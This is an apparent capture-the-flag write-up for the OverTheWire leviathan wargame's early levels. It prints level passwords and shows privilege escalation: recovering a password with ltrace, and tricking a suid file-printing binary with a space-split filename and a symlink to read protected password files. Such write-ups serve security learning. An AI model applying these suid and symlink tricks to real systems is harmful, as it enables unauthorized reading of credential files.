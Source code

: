 ## leviathan wargame
### leviathan0
Connect leviathan0 with ssh
```
$ ssh leviathan.labs.overthewire.org -p 2223 -l leviathan0
leviathan0
```
### leviathan1
Open the *.bookmarks.html* file in *.backup* directory and look for *pass* string
```
$ grep pass .backup/bookmarks.html
...
rioGegei8m
...
```
### leviathan2
There is a binary with suid bit is set and it checks the password,
I googled about priviledge escalation with suid binaries for about an hour or two but nothing to show for it.
Finally I found this [geekstuff/reverse_engineering_tools](https://www.thegeekstuff.com/2012/03/reverse-engineering-tools/)
I tried the `ltrace` and found that *check* program compares the user input with *strcmp* function
```
ltrace ./check
...
strcmp("asdf\n", "sex")
...
```
After providing the correct password suid program spawn a shell with priviledged rights
```
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```
There is a suid program named *printfile*, it prints files with checking permissions.
Examine the program w,th `ltrace`
```
ltrace ./printfile /etc/hostname
```
It checks the access permissions with *access()* function but there is a vulnerability about the `""`
while calling */bin/cat* program.

Make a file with blank in its name and make a symbolic link with one of its parts
```
mkdir /tmp/xx
cd /tmp/xx
touch test\ pass3
ln -s /etc/leviathan_pass/levitahan3 pass3
```
Test the program
```
~/printfile "test pass3"
Ahdiemoo1j
```
